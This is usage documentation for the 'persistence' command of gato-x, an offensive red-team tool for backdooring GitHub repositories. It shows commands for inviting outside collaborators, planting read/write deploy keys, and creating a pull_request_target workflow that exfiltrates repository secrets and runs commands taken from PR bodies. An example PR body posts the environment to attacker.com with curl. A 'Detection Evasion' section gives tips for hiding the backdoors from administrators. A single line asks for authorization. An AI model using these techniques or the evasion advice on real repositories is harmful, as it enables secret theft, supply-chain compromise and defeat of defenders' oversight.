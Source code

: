 # Persistence Command

The persistence command enables red teamers and security researchers to deploy advanced persistence techniques in GitHub repositories. This command provides three main attack vectors based on different privilege levels and creates lasting backdoors that can survive various defensive actions.

> **Warning**: These features should only be used with proper authorization and for ethical security research purposes.

## Basic Usage

```bash
gato-x persistence [options]
# or
gato-x persist [options]
# or
gato-x p [options]
```

## Options

### General Options

| Option | Description |
|--------|-------------|
| `--target`, `-t` | Repository to target for persistence in ORG/REPO format (required) |
| `--author-name`, `-a` | Name of the author that all git commits will be made under |
| `--author-email`, `-e` | Email that all git commits will be made under |
| `--timeout`, `-to` | Timeout in seconds to wait for API calls (default: 30) |

### Persistence Technique Options

**Note**: These options are mutually exclusive - you can only select one technique per command execution.

#### Collaborator Invitation (Admin Required)

| Option | Description |
|--------|-------------|
| `--collaborator` | Invite outside collaborators to the repository (requires admin privileges) |

#### Deploy Key Creation (Admin Required)

| Option | Description |
|--------|-------------|
| `--deploy-key` | Create a read/write deploy key for the repository (requires admin privileges) |
| `--key-title`, `-k` | Title for the deploy key (default: "Gato-X Deploy Key") |

#### Malicious Workflow Creation (Write Required)

| Option | Description |
|--------|-------------|
| `--pwn-request` | Create a malicious pull_request_target workflow on a non-default branch (requires write privileges) |
| `--branch-name`, `-b` | Branch name for pwn-request technique (default: "feature/test-workflow") |

## Persistence Techniques

### 1. Collaborator Invitation

**Privilege Level**: Admin required

This technique invites external users as collaborators to maintain access to the repository.

```bash
# Invite single collaborator
gato-x persistence --target org/repo --collaborator username1

# Invite multiple collaborators
gato-x persistence --target org/repo --collaborator username1 username2 username3
```

**How it works**:
- Sends collaboration invitations to specified GitHub users
- Once accepted, collaborators maintain access even if the original PAT is revoked
- Collaborators inherit repository permissions based on their invitation level

### 2. Deploy Key Creation

**Privilege Level**: Admin required

This technique generates and installs read/write SSH deploy keys with automatic RSA key pair generation.

```bash
# Create deploy key with default title
gato-x persistence --target org/repo --deploy-key

# Create deploy key with custom title
gato-x persistence --target org/repo --deploy-key --key-title "Backup Key"
```

**How it works**:
- Generates a 2048-bit RSA key pair automatically
- Installs the public key as a read/write deploy key in the repository
- Outputs the private key for the attacker to save securely
- Deploy key provides Git access independent of the original PAT

### 3. Malicious Pull Request Target Workflow

**Privilege Level**: Write required

This technique creates a weaponized `pull_request_target` workflow on non-default branches that can be triggered by external contributors.

```bash
# Create malicious workflow on default branch name
gato-x persistence --target org/repo --pwn-request

# Create malicious workflow on custom branch
gato-x persistence --target org/repo --pwn-request --branch-name feature/test
```

**How it works**:
- Creates a new branch with a malicious GitHub Actions workflow
- Uses `pull_request_target` trigger to bypass standard PR security restrictions
- Grants full repository permissions to the workflow
- Exfiltrates all repository secrets via `toJson(secrets)`
- Executes arbitrary code from PR body content
- Can be triggered by any external contributor creating a PR targeting the specified branch

## Example Workflows

### Complete Persistence Setup

```bash
# Step 1: Create deploy key for Git access
gato-x persistence --target victim/repo --deploy-key --key-title "Maintenance Key"

# Step 2: Invite backup collaborator
gato-x persistence --target victim/repo --collaborator backup-user

# Step 3: Create workflow backdoor
gato-x persistence --target victim/repo --pwn-request --branch-name feature/ci-improvements
```

### Triggering Workflow Persistence

After creating a malicious workflow, trigger it by:

1. Creating a pull request targeting the specified branch
2. Including shell commands in the PR body
3. The workflow will execute the commands and exfiltrate secrets

Example PR body:
```bash
# This is a test PR
whoami
env | grep -E "(SECRET|TOKEN|KEY)"
curl -X POST https://attacker.com/exfil -d "$(env)"
```

## Security Considerations

### Persistence Durability

- **Deploy Keys**: Removed when the creating PAT is revoked or user access is removed
- **Collaborators**: Maintain access until manually removed by repository administrators
- **Malicious Workflows**: Persist until the branch is deleted or workflow file is removed

### Detection Evasion

- Use realistic branch names and workflow titles
- Space out persistence techniques over time
- Use legitimate-looking collaborator usernames
- Deploy keys can use descriptive titles that blend with legitimate keys

## Troubleshooting

### Permission Errors

- **Admin techniques**: Verify you have admin access to the target repository
- **Write techniques**: Verify you have write access to the target repository
- **API limits**: Respect GitHub API rate limits; use `--timeout` to increase wait times

### Common Issues

- **Deploy key conflicts**: GitHub prevents duplicate SSH keys; ensure your generated key is unique
- **Branch conflicts**: Choose branch names that don't conflict with existing branches
- **Workflow validation**: GitHub validates workflow syntax; malformed YAML will be rejected

## Related Commands

- [Attack Command](attack.md) - Execute various attack techniques against repositories
- [Enumerate Command](enumerate.md) - Discover accessible repositories and permissions
- [Search Command](search.md) - Find repositories with potential vulnerabilities